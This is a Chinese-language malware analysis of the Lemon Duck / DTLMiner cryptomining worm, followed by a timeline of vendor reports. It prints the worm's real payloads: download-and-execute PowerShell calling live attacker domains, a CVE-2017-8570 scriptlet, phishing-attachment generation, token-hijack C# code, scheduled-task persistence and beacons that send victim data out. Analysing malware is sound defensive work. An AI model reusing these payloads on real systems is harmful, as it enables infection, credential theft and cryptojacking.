	function rdp_rc4_crypt
	function rdp_final_hash
	function rdp_calculate_rc4_keys
	function rdp_encrypted_pkt
	function try_check
	function check
function geth 
function LoadApi
function sid_to_key
function str_to_key
function NewRC4
function des_encrypt
function des_decrypt
function des_transform
function Get-RegKeyClass
function Get-BootKey
function Get-HBootKey
function Get-UserName
function Get-UserHashes
function DecryptHashes
function DecryptSingleHash
function Get-UserKeys
function DumpHashes
function Invoke-Mypass
    function LGDJSR
    function Get-WiSDGKDants
    function Get-l64ftion
    function bud-ksgLHDnwn
    function Add-SignedIntAsUnsigned
    function Compare-Val1GreaterThanVal2AsUInt
    function Convert-UIntToInt
    function Test-MemoryRangeValid
    function Write-BytesToMemory
    function Get-DelegateType
    function klsdjlkhfDjswpdy
    function Enable-SeDebugPrivilege
    function sadkjhdsjD
    function Get-ImageNtHeaders
    function DHWE-kidD
    function KDHSD-JUWF
    function HDSK-OUHF
    function KJSHDeUFHEF7
    function Cthis-SectioDSns
    function LSHDjh3-upd
    function lhsdu-jsd
    function SDhk34JSD
    function usdKdhdf
    function KSHDUWKHF
    function SDHlhuhWEDSDDS
    function GessKUDBSD
    function LHSDGUKsdHF
    function SDLHLESDME
    function Main
function Invoke-SE
function ConvertFrom-PacketOrderedDictionary
function New-PacketNetBIOSSessionService
function New-PacketSMBHeader
function New-PacketSMBNegotiateProtocolRequest
function New-PacketSMBSessionSetupAndXRequest
function New-PacketSMBTreeConnectAndXRequest
function New-PacketSMBNTCreateAndXRequest
function New-PacketSMBReadAndXRequest
function New-PacketSMBWriteAndXRequest
function New-PacketSMBCloseRequest
function New-PacketSMBTreeDisconnectRequest
function New-PacketSMBLogoffAndXRequest
function New-PacketSMB2Header
function New-PacketSMB2NegotiateProtocolRequest
function New-PacketSMB2SessionSetupRequest
function New-PacketSMB2TreeConnectRequest
function New-PacketSMB2CreateRequestFile
function New-PacketSMB2ReadRequest
function New-PacketSMB2WriteRequest
function New-PacketSMB2CloseRequest
function New-PacketSMB2TreeDisconnectRequest
function New-PacketSMB2SessionLogoffRequest
function New-PacketNTLMSSPNegotiate
function New-PacketNTLMSSPAuth
function New-PacketRPCBind
function New-PacketRPCRequest
function New-PacketSCMOpenSCManagerW
function New-PacketSCMCreateServiceW
function New-PacketSCMStartServiceW
function New-PacketSCMDeleteServiceW
function New-PacketSCMCloseServiceHandle
function Get-StatusPending
function Get-UInt16DataLength
function Invoke-SMBC
function ConvertFrom-PacketOrderedDictionary
function New-PacketNetBIOSSessionService
function New-PacketSMBHeader
function New-PacketSMBNegotiateProtocolRequest
function New-PacketSMBSessionSetupAndXRequest
function New-PacketSMB2Header
function New-PacketSMB2NegotiateProtocolRequest
function New-PacketSMB2SessionSetupRequest
function New-PacketSMB2TreeConnectRequest
function New-PacketSMB2CreateRequest
function New-PacketSMB2FindRequestFile
function New-PacketSMB2QueryInfoRequest
function New-PacketSMB2ReadRequest
function New-PacketSMB2WriteRequest
function New-PacketSMB2CloseRequest
function New-PacketSMB2TreeDisconnectRequest
function New-PacketSMB2SessionLogoffRequest
function New-PacketSMB2IoctlRequest
function New-PacketSMB2SetInfoRequest
function New-PacketNTLMSSPNegotiate
function New-PacketNTLMSSPAuth
function Get-UInt16DataLength
function Invoke-SMBGhost
	function check_vul
	function check
function copyrun 
function db_query
function mssqlrun
function sshbrute
function isPubIP 
function getipaddrs
function localscan 
```


##### m6.bin (XMRig)

若是64位系统，根据互斥锁（Global\eLocalMn）下载：

```
http://d.ackng.com/m6.bin?
MD5 (m6.bin) = 5b2849ff2e8c335dcc60fd2155b2d4d3
```

远程文件`m6.bin`中，包含XMRig程序：

以0x0A截断

*   前半部分为Powershell脚本
    *   长达2700多行，定义test1函数，及33个子函数
    *   疑似使用https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

*   后半部分为 PE32+ executable (console) x86-64, for MS Windows 可执行文件

使用test1反射式注入后半部分的exe文件到Powershell进程里运行，并且会在外部再次运行一次


##### m6g.bin (XMRig opencl cuda)

若是64位系统，且有AMD/NVIDIA的显卡，则根据互斥锁（Global\eLocalMng）下载：

```
http://d.ackng.com/m6g.bin
MD5 (m6g.bin) = 23d59ed726e13edabcb751da7a5ce310
```

与m6.bin的不同，它的API开放端口为：

```
http://127.0.0.1:43668/1/summary
```


##### if_mail.bin (使用Outlook传播生成的恶意文档)

```
http://d.ackng.com/if_mail.bin
MD5 (if_mail.bin) = 88949e6a329c6b2796ddcc81564cee1a
```

其部分核心代码：

```powershell
# 若是管理员权限，创建管道执行mail_code 
if(([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")){
    # powershell -c $pipe=new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'')
    # $pipe.WaitForConnection()
    # $sr=new-object System.IO.StreamReader($pipe)
    # $cmd=$sr.ReadToEnd()
    # $sr.Dispose()
    # $pipe.Dispose()
    # IEx($cmd)
    # (new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'')).WaitForConnection()
	$sesscmd='powershell -c $pipe=new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'');$pipe.WaitForConnection();$sr=new-object System.IO.StreamReader($pipe);$cmd=$sr.ReadToEnd();$sr.Dispose();$pipe.Dispose();IEx($cmd);(new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'')).WaitForConnection()'
    # // 使用Windows高级API来获取当前登录用户的访问令牌,以获取到的用户身份执行命令
    # // 这意计算机上所有登录的用户会被发送邮件
    [Utils.ProcessExtensions]::EnumSessionsAndExecCmd($sesscmd.Trim())

	$pipe=new-object System.IO.Pipes.NamedPipeClientStream("\\.\pipe\HHyeuqi7");
    $pipe.Connect();
    $sw=new-object System.IO.StreamWriter($pipe);
    $sw.WriteLine($mail_code);
    $sw.Dispose();
    $pipe.Dispose()
	(new-object System.IO.Pipes.NamedPipeClientStream("\\.\pipe\HHyeuqi7")).Connect()
	"Done and exit..."
}else{
	IEx $mail_code
}

new-item $env:tmp\godmali3.txt -type file -force
```

在当前环境中注入一段C#代码

用于调用Windows高级API来获取当前登录用户的访问令牌,以获取到的用户身份执行mail_code包含的命令

这意味着会影响计算机上所有登录用户

```c#
using System;
using System.Runtime.InteropServices;
namespace Utils
{
    public static class ProcessExtensions
    {
        private const uint INVALID_SESSION_ID = 0xFFFFFFFF;
        [DllImport("advapi32.dll", EntryPoint = "CreateProcessAsUser", SetLastError = true, CharSet = CharSet.Ansi, CallingConvention = CallingConvention.StdCall)]
        private static extern bool CreateProcessAsUser(
            IntPtr hToken,
            String lpApplicationName,
            String lpCommandLine,
            IntPtr lpProcessAttributes,
            IntPtr lpThreadAttributes,
            bool bInheritHandle,
            uint dwCreationFlags,
            IntPtr lpEnvironment,
            String lpCurrentDirectory,
            ref STARTUPINFO lpStartupInfo,
            out PROCESS_INFORMATION lpProcessInformation);
        [DllImport("advapi32.dll", EntryPoint = "DuplicateTokenEx")]
        private static extern bool DuplicateTokenEx(
            IntPtr ExistingTokenHandle,
            uint dwDesiredAccess,
            IntPtr lpThreadAttributes,
            int TokenType,
            int ImpersonationLevel,
            ref IntPtr DuplicateTokenHandle);
        [DllImport("userenv.dll", SetLastError = true)]
        private static extern bool CreateEnvironmentBlock(ref IntPtr lpEnvironment, IntPtr hToken, bool bInherit);
        [DllImport("userenv.dll", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool DestroyEnvironmentBlock(IntPtr lpEnvironment);
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool CloseHandle(IntPtr hSnapshot);
        [DllImport("Wtsapi32.dll", SetLastError=true)]
        private static extern bool WTSQueryUserToken(uint SessionId, ref IntPtr phToken);
        [DllImport("wtsapi32.dll", SetLastError = true)]
        private static extern int WTSEnumerateSessions(
            IntPtr hServer,
            int Reserved,
            int Version,
            ref IntPtr ppSessionInfo,
            ref int pCount);
        [StructLayout(LayoutKind.Sequential)]
        private struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public uint dwProcessId;
            public uint dwThreadId;
        }
        [StructLayout(LayoutKind.Sequential)]
        private struct STARTUPINFO
        {
            public int cb;
            public String lpReserved;
            public String lpDesktop;
            public String lpTitle;
            public uint dwX;
            public uint dwY;
            public uint dwXSize;
            public uint dwYSize;
            public uint dwXCountChars;
            public uint dwYCountChars;
            public uint dwFillAttribute;
            public uint dwFlags;
            public short wShowWindow;
            public short cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }
        private enum WTS_CONNECTSTATE_CLASS
        {
            WTSActive,
            WTSConnected,
            WTSConnectQuery,
            WTSShadow,
            WTSDisconnected,
            WTSIdle,
            WTSListen,
            WTSReset,
            WTSDown,
            WTSInit
        }
        [StructLayout(LayoutKind.Sequential)]
        private struct WTS_SESSION_INFO
        {
            public readonly UInt32 SessionID;
            [MarshalAs(UnmanagedType.LPStr)]
            public readonly String pWinStationName;
            public readonly WTS_CONNECTSTATE_CLASS State;
        }
        private static void StartProcessWithToken(ref IntPtr hUserToken,string cmd)
        {
            STARTUPINFO startInfo = new STARTUPINFO();
            PROCESS_INFORMATION procInfo = new PROCESS_INFORMATION();
            IntPtr pEnv = IntPtr.Zero;
			if(CreateEnvironmentBlock(ref pEnv,hUserToken,false))
			{
				Console.WriteLine("Create Environment Block Success");
			}
			
            startInfo.cb = Marshal.SizeOf(typeof(STARTUPINFO));
            uint dwCreationFlags = 0x00000400 | 0x08000000;
			//uint dwCreationFlags = 0x00000400 | 0x00000010;
            startInfo.wShowWindow = 0;
            startInfo.dwFlags = 1;
            startInfo.lpDesktop = "winsta0\\default";
            if (CreateProcessAsUser(hUserToken,
                "c:\\windows\\system32\\cmd.exe",
                "/c "+cmd,
                IntPtr.Zero,
                IntPtr.Zero,
                false,
                dwCreationFlags,
                pEnv,
                null,
                ref startInfo,
                out procInfo))
            {
            	Console.WriteLine("Start Process Success");
            } else 
			{
				Console.WriteLine(Marshal.GetLastWin32Error());
			}
            CloseHandle(hUserToken);
            CloseHandle(procInfo.hThread);
            CloseHandle(procInfo.hProcess);
        }
        public static void EnumSessionsAndExecCmd(string cmd)
        {
            IntPtr hImpersonationToken = IntPtr.Zero;
            IntPtr pSessionInfo = IntPtr.Zero;
            int sessionCount = 0;
            int arrayElementSize = Marshal.SizeOf(typeof(WTS_SESSION_INFO));
            IntPtr phUserToken = IntPtr.Zero;
            if (WTSEnumerateSessions(IntPtr.Zero, 0, 1, ref pSessionInfo, ref sessionCount) != 0)
            {
                Int64 current = pSessionInfo.ToInt64();
                for (int i = 0; i < sessionCount; i++)
                {
                    WTS_SESSION_INFO si = (WTS_SESSION_INFO)Marshal.PtrToStructure((IntPtr)(current), typeof(WTS_SESSION_INFO));
                    current += arrayElementSize;
                    Console.WriteLine("Get Session ID:"+si.SessionID);
                    if (WTSQueryUserToken(si.SessionID, ref hImpersonationToken))
                    {
                    	Console.WriteLine("Get Session Token Success");
                    	if (DuplicateTokenEx(hImpersonationToken, 0, IntPtr.Zero, 2, 1, ref phUserToken))
                    	{
                    		Console.WriteLine("Duplicate Token Success");
                    		StartProcessWithToken(ref phUserToken,cmd);
                    	}
                    }
                }
            }
        }
    }
}
```

在mail_code变量中定义邮件攻击相关代码吗，主要作用是：

```powershell
# 发送获取的邮箱相关信息 链接返回404 
(New-object net.webclient).downloadstring("http://d.ackng.com/report.json?type=mail&u=$muser&c1="+$contacts.count+"&c2="+$sent_tos.count+"&c3="+$recv_froms.count)
```

生成包含恶意脚本的JS文件 (readme.js)

```powershell
function Add-Zip
{
    param([string]$zipfilename)
    if(-not (test-path($zipfilename)))
    {
        set-content $zipfilename ("PK" + [char]5 + [char]6 + ("$([char]0)" * 18))
        (dir $zipfilename).IsReadOnly = $false  
    }
	
    $shellApplication = new-object -com shell.application
    $zipPackage = $shellApplication.NameSpace($zipfilename)
    
	foreach($file in $input) 
    { 
            $zipPackage.CopyHere($file.FullName)
            Start-sleep -milliseconds 500
    }
}


$att_js=$env:tmp+"\readme.js"
$js_code='var cmd =new ActiveXObject("WScript.Shell");var cmdstr="cmd /c start /b notepad "+WScript.ScriptFullName+" & powershell -w hidden IEx(New-Object Net.WebClient).DownLoadString(''THEURL/7p.php?VER*mail_js*%username%*%computername%*''+[Environment]::OSVersion.version.Major);bpu (''THEURL/mail.jsp?js_VER'')";cmd.run(cmdstr,0,1);'.replace("THEURL",$base_url).replace("VER",$version)


# JS文件长度混淆
($js_text+"`r`n"*(2000+(get-random)%1000)+" "*(102+(get-random)%100)+$js_code.trim())|out-file $att_js
$att_zip_name="readme.zip"
$att_zip=$env:tmp+"\$att_zip_name"
dir $att_js|Add-Zip $att_zip
```

生成包含针对CVE-2017-8570漏洞与微软OfficeDDE（动态数据交换）攻击的恶意UTF文档（之前叫作urgent.doc 现在叫 readme.doc）

文档打开后的截图：


每一次邮件发送都会动态生成随机15位随机字符命名的sct文件

```powershell
$filename=-join([char[]](48..57+65..90+97..122)|Get-Random -Count 15)+".sct"
```

然后通过CVE-2017-8570漏洞利用，将sct文件写入RTF文档，在文档打开时Package对象中包含的`.sct`文件脚本文件会自动释放至临时目录，该`.sct`文件将由RTF文档中的第二个objdata加载执行，执行后会自身删除

`.sct`文件内容：

```xml
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
    >
</registration>

<script language="JScript">
<![CDATA[
        new ActiveXObject("WScript.Shell").Run('cmd /c powershell -w hidden IEx(New-Object Net.WebClient).DownLoadString(\'http://t.t\'+\'r2q.com/7p.php?0.7*mail_doc*%username%*%computername%*\'+[Environment]::OSVersion.version.Major);bpu (\'http://t.t\'+\'r2q.com/mail.jsp?doc_0.7\')&del %tmp%\\GUOtwYxlpzKPBSh.sct',0,1);window.close();
]]>
</script>

</scriptlet>

```

其执行代码，美化后的显示：

```powershell
IEx(New-Object Net.WebClient).DownLoadString('http://t.tr2q.com/7p.php?0.7*mail_doc*%username%*%computername%*'+[Environment]::OSVersion.version.Major);
bpu ('http://t.tr2q.com/mail.jsp?doc_0.7');
del %tmp%/RANDOM.sct
```

使用OfficeDDE功能进行二次触发：

```powershell
$dde_cmd="powershell [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:%tmp%\$filename').Exec(0)&"
```

最后生成flag文件，表示已发送过邮件

```powershell
$env:tmp/godmali3.txt
```


##### report.jsp （写入定时任务blackball）

携带信息:

>   *计算机名，GUID，MAC地址，系统，系统位数，用户，域，磁盘，显卡，内存，管理员权限，本地蠕虫攻击Payload，本地xmrigPayload，xmrig版本，矿池地址，算力，开机时间，上传时间*

```
http://t.awcna.com/report.jsp?EMOSMAC2077&05DCA6CB-2A44-C943-9E0D-9ABF4B11DCA8&00:1C:42:6E:F5:42&7 旗舰版 _6.1.7601&1&EMo&WORKGROUP&&Parallels Display Adapter (WDDM)&2.25&1&&5B2849&&&&227546.396&&0.1
MD5 (report.jsp) = 6038cd68f69ac785118bb5b0d058b667
```

去除多层混淆后的源代码：

```powershell
# 若不存在传播方式变量$v则为?mig_20200427
if(!$v){
	$v='?mig_'+(Get-Date -Format 'yyyyMMdd')
}
# $v='mail'
$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient)."DownloadData"($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'

$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
function getRan(){return -join([char[]](48..57+65..90+97..122)|Get-Random -Count (6+(Get-Random)%6))}
$us=@('t.awcna.com','t.tr2q.com','t.amynx.com')

$stsrv = New-Object -ComObject Schedule.Service
$stsrv.Connect()

# 查看是否已经存在名为blackball的定时任务
try{
	$doit=$stsrv.GetFolder("\").GetTask("blackball")
}catch{}
# 若不存在进行
if(-not $doit){
	if($sa){
		# 每120分钟执行blackball 
		schtasks /create /ru system /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	} else {
		schtasks /create /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	}
	foreach($u in $us){
		$i = [array]::IndexOf($us,$u)
		# 写入计划任务的位置
		if($i%3 -eq 0){$tnf=''}
		if($i%3 -eq 1){$tnf=getRan}
		if($i%3 -eq 2){if($sa){$tnf='MicroSoft\Windows\'+(getRan)}else{$tnf=getRan}}
		$tn = getRan
		if($sa){
			schtasks /create /ru system /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -c PS_CMD"
		} else {
			schtasks /create /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		}
		start-sleep 1
		$folder=$stsrv.GetFolder("\$tnf")
		$taskitem=$folder.GetTasks(1)
		foreach($task in $taskitem){
			foreach ($action in $task.Definition.Actions) {
				try{
					if($action.Arguments.Contains("PS_CMD")){	
						$folder.RegisterTask($task.Name, $task.Xml.replace("PS_CMD",$tmps.replace('U1',$u.substring(0,5)).replace('U2',$u.substring(5))), 4, $null, $null, 0, $null)|out-null
					}
				}catch{}
			}
		}
		schtasks /run /tn "$tnf\$tn"
		start-sleep 5
	}
}

```

查看是否已经存在名为blackball的定时任务,

不存在则创建定时任务执行以获取远程文件`a.jsp`


以下是部分远程脚本中纯为完成信息反馈的URL（访问返回404） ：

*   `http://d.ackng.com/report.json`
*   `http://d.ackng.com/log.json`

```powershell
# if.bin
(New-Object Net.WebClient).DownloadString('http://d.ackng.com/report.json?v='+$VVERSION+'&type=smbhost&ip='+$currip+'&t='+$t)

(New-Object Net.WebClient).DownloadString('http://d.ackng.com/report.json?v='+$VVERSION+'&type=ms&ip='+$currip+'&pass='+$allpass[$n]+'&t='+$t)

## 除基础环境信息外还包含每个已执行模块的状态信息
(New-Object Net.WebClient).DownloadString($down_url+'/log.json?V='+$VVERSION+'&'+$comp_name+'&'+$guid+'&'+$mac+'&r='+$retry+'&pc1='+$smb_portopen[1].count+'&pc2='+$ms_portopen[1].count+'&pc3='+$old_portopen[1].count+'&pc4='+$rdp_portopen[1].count+'&pci='+$ipaddrs_i.count+'&pco='+$ipaddrs_o.count+'&pcb='+$global:ipaddrs_b+'&pcs='+$pcs+'&mi='+($getpasswd -join "^^")+'&wf='+[Int]$wf+'&mf='+[Int]$mf)

# ifmail.bin
## 邮件发送后邮箱联系人相关信息
(New-object net.webclient).downloadstring("http://d.ackng.com/report.json?type=mail&u=$muser&c1="+$contacts.count+"&c2="+$sent_tos.count+"&c3="+$recv_froms.count)
```


### 开源项目的利用

该组织利用了大量开源项目，来构建攻击链，以下是其相关开源项目及对应关系：

https://github.com/xmrig/xmrig-cuda/releases

>   xmrig挖矿程序

https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

>   将挖矿程序xmrig，反射式注入powershell.exe中

https://github.com/rxwx/CVE-2017-8570

>   OLE攻击文档代码生成的来源
>
>   *注意：scriptlet代码与先前引用的[CVE-2017-8570](https://github.com/rxwx/CVE-2017-8570)的Github页面上显示的代码完全匹配。*
>
>   *字符串“ fjzmpcjvqp”是唯一的，如果该代码不是使用相同的公共POC漏洞利用代码生成的，则不应该如此巧合。*

https://github.com/mardahl/MyScripts-iphase.dk/blob/master/function_executeAsLoggedOnUser.ps1

>   用于if_mail.jsp中在所登录用户上执行

https://github.com/FreeRDP/FreeRDP

>   wfree.exe 的来源

https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1

>   哈希传递攻击模块来源

https://github.com/ollypwn/SMBGhost

>   CVE-2020-0796 SMBGhost POC 参照该Python项目修改为Powershell版本


##  参考链接

### 相关攻击事件

2018-12-15

利用“驱动人生”升级程序的恶意程序预警 360

>   ackng.com dl.haqo.net p.abbny.com

https://cert.360.cn/warning/detail?id=57cc079bc4686dd09981bf034130f1c9

“驱动人生”利用高危漏洞传播病毒 12月14日半天感染数万台电脑  火绒

https://mp.weixin.qq.com/s?biz=MzI3NjYzMDM1Mg==&mid=2247485801&idx=1&sn=233c83c3dec9376b3d04d7ddd40903e6&scene=21#wechat_redirect

 2018-12-17

一场精心策划的针对驱动人生公司的定向攻击活动分析 腾讯

>   pull.update.ackng.com

https://mp.weixin.qq.com/s/ctBgivcvH216dwq00WRmOA

驱动人生旗下应用分发恶意代码事件分析 - 一个供应链攻击的案例 奇安信

https://ti.qianxin.com/blog/articles/an-attack-of-supply-chain-by-qudongrensheng/

>   驱动人生公司团队在后续发布的关于攻击活动的声明中说他们当时正在团建活动中，如果确实为外部的攻击，那明显是一个对公司的运作非常熟悉的人员执行的一场有预谋的突袭。（这点估计只是为甩锅才说的……）

2018-12-19

警报！“永恒之蓝”下载器木马再度更新 360

>   r.minicen.ga 

http://www.360.cn/n/10528.html

2019-01-24

劫持“驱动人生”的挖矿蠕虫再次活跃  奇安信

https://mp.weixin.qq.com/s?__biz=MzI2MDc2MDA4OA==&mid=2247486576&idx=1&sn=dc5ff6a05fac06608365823173d17dae

2019-01-28

曾利用驱动人生升级通道传播的木马下载器再次升级 腾讯

https://guanjia.qq.com/news/n3/2475.html

2019-01-30

驱动人生供应链木马攻击2019.1.30变种木马分析 360 

https://payloads.online/archivers/2019-02-23/1

2019-02-14

同一团伙还是栽赃嫁祸？丨“驱动人生”劫持事件与Mykings家族活动的关联分析

>   发现一些涉及Mykings家族活动的现象，但未能得出确定性的结论 (因为81.177.135.35)  

https://www.freebuf.com/articles/system/195337.html

2019-02-20

Monero Miner-Malware Uses RADMIN, MIMIKATZ to Infect, Propagate via Vulnerability

>   haqo.net abbny.com 新出现  beahh.com  （与r.minicen.ga相同解析27.102.107.137）

https://blog.trendmicro.com/trendlabs-security-intelligence/monero-miner-malware-uses-radmin-mimikatz-to-infect-propagate-via-vulnerability/


2019-02-22

永恒之蓝下载器木马持续活跃：始于供应链攻击，不断变换攻击手法  腾讯

https://s.tencent.com/research/report/657.html

2019-03-01  

瑞星：“驱动人生木马”3连更 增加签名躲查杀

>   近日，瑞星安全研究院监测到利用“驱动人生”传播的挖矿木马病毒再次更

http://it.rising.com.cn/dongtai/19521.html

2019-03-11

永恒之蓝下载器木马升级更新没完没了新增无文件攻击 腾讯

>   通过对比分析还发现“永恒之蓝”木马下载器黑产团伙使用的Powershell攻击代码与腾讯御见威胁情报中心2018年9月发现的Mykings僵尸网络变种攻击代码有诸多相似之处，因此推测两者具有某种联系。

https://s.tencent.com/research/report/674.html

2019-04-24

Beapy: Cryptojacking Worm Hits Enterprises in China

>   More than 80 percent of its victims located in China, with other victims in South Korea, Japan, and Vietnam.
>
>   赛门铁克命名其为Beapy

https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/beapy-cryptojacking-worm-china

2019-06-05

Monero-Mining Malware PCASTLE Zeroes Back In on China, Now Uses Multilayered Fileless Arrival Techniques  

>   powershell 结构 与sophos的报告关联
>
>   *Lemon-Duck*  最早在报告中出现

https://blog.trendmicro.com/trendlabs-security-intelligence/monero-mining-malware-pcastle-zeroes-back-in-on-china-now-uses-multilayered-fileless-arrival-techniques/


2019-07-30

永恒之蓝下载器木马再次更新，新增移动盘及网络共享盘传播  腾讯

https://s.tencent.com/research/report/768.html

2019-08-02  

瑞星：不打补丁的请警惕DTL最新变种

http://it.rising.com.cn/dongtai/19620.html

2019-08-16 

瑞星：一月二更 “DTLMiner”病毒有点狂

https://it.rising.com.cn/dongtai/19629.html

2019-09-03  

挖矿木马“DTLMiner” 中毒后仿佛闻到烧显卡的味道 瑞星

>    疑似挖矿木马病毒"DTLMiner"的新变种 （"43669/1/summary"）  

http://it.rising.com.cn/dongtai/19635.html

2019-10-14

瑞星：“DTLMiner”再次更新 成为首个利用BlueKeep漏洞的病毒

http://it.rising.com.cn/dongtai/19652.html

2019-10-31  

DTLMiner再更新 排除异己并提升攻击成功率

http://it.rising.com.cn/dongtai/19659.html

2019-10-01

Lemon_Duck PowerShell malware cryptojacks enterprise networks    sophos

>   Based on the compromised machine count in the telemetry, we suspect that the attacks may have originated in Asia, but have spread to every continent.
>
>   攻击蔓延到全球
>
>   $Lemon_Duck

https://news.sophos.com/en-us/2019/10/01/lemon_duck-powershell-malware-cryptojacks-enterprise-networks/

2020-02-05

New Lemon Duck Malware Campaign Targets IoT, Large Manufacturers

>   Lemon_Duck PowerShell
>
>   波及IoT设备状况

https://vulners.com/threatpost/THREATPOST:FC124FCB1BDB55D5A63163F8F4720021

TrapX Security Identifies New Malware Campaign Targeting IoT Devices Embedded With Windows 7 at Manufacturing Sites

https://www.prnewswire.com/news-releases/trapx-security-identifies-new-malware-campaign-targeting-iot-devices-embedded-with-windows-7-at-manufacturing-sites-300999051.html

https://trapx.com/landing/iot-manufacturing-report/ 

2020-02-06

Lemon Duck Malware : Infecting outdated Windows systems using EternalBlue

https://www.secpod.com/blog/lemon-duck-malware/

2020-02-29

在野社区发现存在IPC攻击

https://www.v2ex.com/t/648332

2020-3-24

>    在社区发现存在之前版本恶意代码 

win10的powershell是本来就卡顿还是因为有病毒

https://www.hostloc.com/thread-663326-1-1.html

2020-03-06 

警惕“驱动人生”无文件挖矿再次更新  亚信

https://www.freebuf.com/articles/terminal/228521.html 

2020-04-03 (同样本)

“永恒之蓝下载器木马”新增钓鱼邮件传播     腾讯安全威胁情报中心

https://s.tencent.com/research/report/950.html

2020-04-10 (同样本)


永恒之蓝木马下载器展开“蓝茶”行动，已变身“邮件蠕虫”   腾讯安全威胁情报中心

https://s.tencent.com/research/report/957.html

2020-04-15 

蠕虫病毒“柠檬鸭”持续扩散 多种暴破方式攻击用户电脑 火绒

https://mp.weixin.qq.com/s/HWdvSzN8Sl4ol0nnWs8m2w

2020-04-17

Weaponized RTF Document Generator & Mailer in PowerShell

https://isc.sans.edu/diary/Weaponized+RTF+Document+Generator+%26+Mailer+in+PowerShell/26030

2020-04-21

来自“蓝茶”的问候：“你是不是疯”，暗藏新攻击手法  腾讯

https://s.tencent.com/research/report/967.html

2020-06-03

永恒之蓝木马下载器发起 “黑球”行动，新增SMBGhost漏洞检测能力 腾讯

https://mp.weixin.qq.com/s/QEE95HTKzuT4-NykfvHfGQ

2020-10-13 

柠檬鸭使加密货币矿工重新成为关注焦点  talos

https://blog.talosintelligence.com/2020/10/lemon-duck-brings-cryptocurrency-miners.html 

### 关联参考信息

2017-07-15

```
ftp://81.177.135.35/./a.exe
```

https://packettotal.com/app/analysis?id=cd988ed555a1b8857f6b1587971769f5&name=ftp

2018-01-24

MyKings: 一个大规模多重僵尸网络

https://blog.netlab.360.com/mykings-the-botnet-behind-multiple-active-spreading-botnets/

2018-02-02

>    81.177.135.35 -> mys2016.info 

Smominru Monero mining botnet making millions for operators

https://otx.alienvault.com/pulse/5a744ab2542d5e34b443da23/

2018-09-10

Mykings僵尸网络变种攻击  腾讯

https://www.freebuf.com/column/183705.html  

2019-02-10

暗云III v3.0 、Mykings、Mirai多个病毒家族结伴来袭的实战分析 

>   81.177.135.35

https://www.freebuf.com/vuls/194515.html

2019-02-14

同一团伙还是栽赃嫁祸？丨“驱动人生”劫持事件与Mykings家族活动的关联分析

>   赞，这个报告帮我们减少了部分关联分析的工作

https://www.freebuf.com/articles/system/195337.html


新增Python攻击模块:


